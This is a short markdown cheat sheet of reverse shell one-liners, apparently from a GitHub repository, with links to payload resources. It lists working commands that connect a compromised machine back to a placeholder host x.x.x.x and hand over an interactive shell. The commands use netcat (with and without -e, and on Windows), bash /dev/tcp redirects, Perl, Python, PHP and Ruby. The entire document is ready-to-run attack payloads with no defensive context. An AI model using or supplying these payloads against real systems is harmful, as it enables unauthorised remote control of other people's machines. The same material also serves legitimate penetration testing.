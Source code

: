 # Reserve Shell Cheat Sheet

Resources:
- https://weibell.github.io/reverse-shell-generator/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell

netcat:

```
nc -e /bin/sh x.x.x.x 4444
```

netcat Windows:

```
nc.exe x.x.x.x 4444 –e cmd.exe
```

netcat without -e:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.X 4444 >/tmp/f
```

Bash:

```
bash -i >& /dev/tcp/x.x.x.x/8080 0>&1  
```

```
setsid bash -i &>/dev/tcp/x.x.x.x/8080 0>&1 &
```

Perl:

```
perl -e 'use Socket;$i="x.x.x.x";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'  
```

Python:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

php:

```
php -r '$sock=fsockopen("x.x.x.x",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

ruby:

```
ruby -rsocket -e'f=TCPSocket.open("x.x.x.x",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```